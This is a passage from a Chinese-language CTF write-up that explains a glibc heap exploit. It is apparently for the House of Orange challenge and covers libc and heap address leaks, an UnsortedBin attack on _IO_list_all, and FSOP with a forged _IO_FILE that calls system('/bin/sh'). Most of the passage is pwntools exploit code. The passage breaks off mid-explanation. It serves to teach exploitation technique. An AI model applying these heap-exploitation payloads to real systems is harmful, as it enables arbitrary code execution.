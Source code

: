泄露地址很简单，用see功能就行，因为printf是遇到'\x00'结束，所以我们需要upgrade名字内容为可见ascii码,这里填充为D和E，便于接收，再see

泄露libc地址，进而得到`system`，`_IO_list_all`地址

```python
see()
io.recvuntil('Name of house : DDDDDDDD')
libc_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x3c2760-0x668
system_addr = libc_base+libc.symbols['system']
log.info('system_addr:'+hex(system_addr))
IO_list_all = libc_base+libc.symbols['_IO_list_all']
log.info('_IO_list_all:'+hex(IO_list_all))
```

泄露heap地址

```python
upgrade(0x400,'E'*0x10,5,5)
see()
io.recvuntil('Name of house : ')
io.recvuntil('E'*0x10)
heap_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x130
log.info('heap_base:'+hex(heap_base))
```
###### 3.UnsortedBin attack 与 FSOP

UnsortedBin Attack的原理见我的[Unsorted Bin Attack 笔记](https://sirhc.xyz/2018/09/06/Unsorted-Bin-Attack-%E7%AC%94%E8%AE%B0/)

`_IO_FILE`相关的`FSOP`的原理见[FSOP原理](#FSOP)

首先利用UnsortedBin Attack去劫持`_IO_list_all`全局变量，可将`_IO_list_all`更改为`unsorted_bin(av)`，即`main_arena+0x58`。这样当触发`_IO_flush_all_lockp`时，我们可在`main_arena`寻求构造`fake IO_file`结构的机会。

由于无法控制`main_arena`中的内容，所以我们决定使用指向`next IOFILE`对象的链指针,上面提到了`_IO_flush_all_lockp` 将会利用`_chain`选择下一个`_IO_file`，`_chain`的地址恰好是smallbin[4]的地址，所以我们通过upgrade修改Unsorted Bin的大小为0x61，再次malloc时，UnsortedBin中的chunk从链表中卸下来。smallbin[4]即`_chain`中就填入了heap内容,代码如下：

```python
vtable_addr = heap_base +0x140

pad =p64(0)*3+p64(system_addr)  # vtable
pad = pad.ljust(0x410,"\x00")
pad += p32(6)+p32(6)+p64(0)

stream = "/bin/sh\x00"+p64(0x61)
stream += p64(0xddaa)+p64(IO_list_all-0x10)
stream +=p64(1)+p64(2)     # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0xc0,"\x00")
stream += p64(0)    # mode<=0
stream += p64(0)
stream += p64(0)
stream += p64(vtable_addr)

payload = pad + stream

upgrade(0x800,payload,6,3)

io.recvuntil('Your choice : ')
io.sendline(str(1))
```
构造完payload -> bulid ->  `UnsortedBin attack`成功执行后，我们看看`_IO_list_all`指向的`main arena+0x58`下的`_chain`:
